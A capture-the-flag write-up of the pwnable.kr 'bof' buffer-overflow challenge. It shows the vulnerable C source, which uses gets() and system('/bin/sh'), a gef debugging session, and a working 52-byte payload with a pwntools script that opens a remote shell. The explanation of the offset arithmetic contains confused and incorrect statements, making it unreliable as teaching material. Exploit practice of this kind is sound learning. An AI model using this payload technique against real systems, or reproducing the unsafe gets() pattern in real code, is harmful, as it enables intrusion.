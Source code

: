 # Breakdown of program

I opened the challenge and found there two files bof and bof.c let’s breakdown the function :p so the program was:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);	// smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

in this we can see there are two functions “func” and “main” in this program we can see function name “func” takes a parimiter key and declared a variable overflowme having a buffer 32 then it takes input and compares with the key “0xcafebabe” if the key is correct it gives us pass else it wll say nah while in the next function main () it just calling “func” and gives HARthe value of key “ox0deadbeef”
that’s how program worked what we need is to overwrite the stack to get the flag
binary eploitation and analysis
let’s dissamble the “func” function to see the asssembly code i.e whats hapening with our code

```
gef➤ disass func
Dump of assembler code for function func:
0x5655562c <+0>: push ebp
0x5655562d <+1>: mov ebp,esp
0x5655562f <+3>: sub esp,0x48
0x56555632 <+6>: mov eax,gs:0x14
0x56555638 <+12>: mov DWORD PTR [ebp-0xc],eax
0x5655563b <+15>: xor eax,eax
0x5655563d <+17>: mov DWORD PTR [esp],0x5655578c
0x56555644 <+24>: call 0xf7e27460 <__GI__IO_puts>
0x56555649 <+29>: lea eax,[ebp-0x2c]
0x5655564c <+32>: mov DWORD PTR [esp],eax
0x5655564f <+35>: call 0xf7e26980 <_IO_gets>
0x56555654 <+40>: cmp DWORD PTR [ebp+0x8],0xcafebabe
0x5655565b <+47>: jne 0x5655566b <func+63>
0x5655565d <+49>: mov DWORD PTR [esp],0x5655579b
[ Legend: Modified register | Code | Heap | Stack | String ]
here we can see cmp which compares both strings and gave us output according to our strings lest’s set breakpoint at cmp with his address and run the our program with AAAAAAAAAAAAAAAAAA to buffer overflow
gef➤ break *0x56555654
Breakpoint 2 at 0x56555654
gef➤ c
Continuing.
overflow me :
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

let’s start to search 0x0deadbeef key in esp register we can see it by typing x/40xw in gef debugger we can see output like this:

here we can see our output AAAAAAAAAAA as “0x414141” and we can see the key 0xedeadbeef too now we find out the distance between our input and the key i.e deadbeef we all know hexadecimal is of 16 bytes and value is stored IN REGISTERS like:
AAAA = 4*4 = 16
so as a highlighted our AAAA is started and where the 0x0deadbeef occurs there are 13 hexa digits so according to basic math
Distance = 13*4= 52 bytes
so we need 52 character to exploit so acccording to little endia ( data in c stored in format of little endia) key will be ‘\xbe\xba\xfe\xca’” and have 52 chracters so final payload will be
**python -c “print ‘A’ * 52 + ‘\xbe\xba\xfe\xca’”**
i code (steal) little python script and run this payload
from pwn import *
conn = remote(“pwnable.kr”, 9000)
payload = ‘A’ * 52 + ‘\xbe\xba\xfe\xca’
conn.sendline(payload)
conn.interactive()
then i got flag after going to home directory and typed cat flag :) that;s all
i made a video too if uh got time then saw this too: https://youtu.be/0s10ul66vqQ
